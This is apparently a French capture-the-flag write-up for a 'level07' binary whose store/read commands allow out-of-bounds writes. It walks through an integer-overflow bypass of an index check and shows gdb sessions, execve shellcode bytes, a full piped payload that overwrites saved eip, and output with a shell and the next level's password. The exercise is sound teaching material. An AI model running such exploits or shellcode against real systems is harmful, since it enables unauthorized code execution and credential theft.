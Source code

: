 On a un executable qui affiche un prompt, ce prompt nous permet de lancer 3 commandes :
- store
- read
- quit

*store* va stocker un unsigned int dans un tableau de taille 100

*read* va lire le tableau a un index specifie

et *quit* va tout simplement quitter le programme

apres avoir desassembler le code et fais quelques tests, on remarque de l'on peut ecrire sur la stack sans que le programme crash. Si l'on tape la commande *read* et qu'on choisit un index superieur a 100 le programme affiche les valeurs sans crash

le programme empeche d'inserer un nombre aux index multiple de 3 et les nombres compris dans l'intervalle [3070230528 >= nb <= 3087007743]

```
if ((index % 3) == 0 || number >> 24 == 183)
```

MAIS, on peut en realite inserer un nombre aux index divisible par 3, car dans ce programme l'index saisi va etre multiplie par 4, si on saisi (((MAX_UINT = 4294967295) + 1) / 4) = 1073741824 l'index [0] sera modifie

```
Input command: store
 Number: 5
 Index: 1073741824
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 5
 Completed read command successfully
```

on va donc utiliser cette faille pour inserer um shellcode au debut de notre tableau et on va ensuite ecrase la valeur de *eip* pour y mettre l'adresse de depart du tableau

on trouve l'adresse de notre tableau qui stock nos nombres en etant dans main (l'adresse est differente lorsqu'on change de fonction)

```
(gdb) disas main
...
0x080487a3 <+128>:   rep stos %eax,%es:(%edi)
...
(gdb) b *0x080487a3
Breakpoint 2 at 0x80487a3
(gdb) x $esp+0x24
0xffffd554:     0 <===
```

0xffffd554 = 4294956372 en decimal

on trouve l'adresse de *eip* lorsqu'on est dans le main

```
(gdb) b main 
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd720:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebp at 0xffffd718, eip at 0xffffd71c <===
```

0xffffd71c = 4294956828 en decimal

il y a donc un ecart de (4294956824 - 4294956372 = 456 octets) entre le debut du tableau et *eip*, comme on avance de 4 en 4 on rentrera 456 / 4 = 114 comme index

on prend notre shellcode de 23 octets : "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

on le divise par 4 (taille d'un unsigned int) pour l'inserer au debut de notre tableau : 
- 6850c031 + 68732f2f + 69622f68 + 50e3896e + b0e18953 + 80cd0b
- 1750122545 + 1752379183 + 1768042344 + 1357089134 + 2967570771 + 8441099

on calcule nos index:
- 1073741824 = index 0
- 1073741827 = index 3
- 1073741938 = index 114

on trouve l'adresse du tableau lorsqu'on est dans la fonction store_number ou read_number (c'est pareil) pour savoir ou on lance notre shellcode lorsqu'on ecrasera *eip*

```
(gdb) b read_number 
Breakpoint 1 at 0x80486dd
(gdb) r
Starting program: /home/users/level07/level07
...
(gdb) x $ebp+0x8
0xffffd530:     0xffffd554
```

(0xffffd530 - 0xffffd554) / 4 = (4294956336 - 4294956372) / 4 = -36 / 4 = -9

on lance notre payload incomplet pour lire l'adresse a l'index [-9] (identique a index[4294967287])

```
echo -e 'store\n1750122545\n1073741824\nstore\n1752379183\n1\nstore\n1768042344\n2\nstore\n1357089134\n1073741827\nstore\n2967570771\n4\nstore\n8441099\n5\nread\n-9\nquit\n' | ./level07
...
Input command:  Index:  Number at data[4294967287] is 4294956404 <===
 Completed read command successfully
```

on peut maintenant lancer notre payload en entier

```
(echo -e 'store\n1750122545\n1073741824\nstore\n1752379183\n1\nstore\n1768042344\n2\nstore\n1357089134\n1073741827\nstore\n2967570771\n4\nstore\n8441099\n5\nread\n-9\nstore\n4294956404\n1073741938\nquit\n' ; cat) | ./level07
...
Input command:  Index:  Number at data[4294967287] is 4294956404
 Completed read command successfully
Input command:  Number:  Index:  Completed store command successfully
whoami
level08
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```